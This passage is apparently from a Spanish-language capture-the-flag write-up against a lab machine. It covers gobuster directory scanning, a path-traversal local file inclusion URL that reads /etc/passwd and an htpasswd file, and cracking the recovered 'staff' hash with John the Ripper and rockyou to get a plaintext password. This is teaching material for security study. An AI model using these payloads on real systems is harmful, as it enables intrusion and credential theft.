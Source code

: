 ![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen20.png)

Uso gobuster para escanear el directorio y encontrar la cuenta del directorio.
> gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt -u 192.168.115.149

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen21.png)

Para acceder al directorio, la url es:
http://192.168.115.149/account/index.php?include=cookiewarning

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen22.png)

Al cambiar ‘cookiewarning’ por ‘../../../../../../../../etc/passwd’ en el navegador, colocamos:
> http://192.168.115.149/account/index.php?include=../../../../../../../../etc/passwd

En la parte inferior se visualizamos una serie de datos lo que demuestra que la aplicación es vulnerable a LFI.

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen23.png)

En el dominio de recoveryplan.greenoptic.vm que se obtuvo anteriormente que nos pedía autenticación, probamos la vulnerabilidad LFI a través del archivo /var/www/htpasswd.
http://192.168.115.149/account/index.php?include=../../../../../../../../var/www/htpasswd

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen24.png) 

Encontramos las credenciales encriptadas:
staff:$apr1$YQNFpPkc$rhUZOxRE55Nkl4EDn.1Po.

Usando JohnTheRipper y el diccionario " rockyou ", logramos descifrar el hash y obtener la contraseña en texto sin formato.

Primero creamos un archivo de texto que contenga la credencial encontrada (hash.txt).
> echo 'staff:$apr1$YQNFpPkc$rhUZOxRE55Nkl4EDn.1Po.' > hash.txt

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen25.png)

Usando JohnTheRipper y el diccionario ‘rockyou’
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen26.png)

Inicialmente el archivo rockyou.txt no fue encontrado, analizando vemos q esta empaquetado. Nos dirigimos a la ruta /usr/share/wordlists y procedemos a desempaquetarlo con:

> gzip -d rockyou.txt.gz

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen27.png)

Usando nuevamente JohnTheRipper y el diccionario ‘rockyou’
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Se obtiene la contraseña para el usuario staff, que es wheeler.

![image](https://github.com/lidiaelopezh/pucp-hacking/blob/463dc77a285fdcaf1a56ff5299964e7b87b5bd5b/images/Imagen28.png)
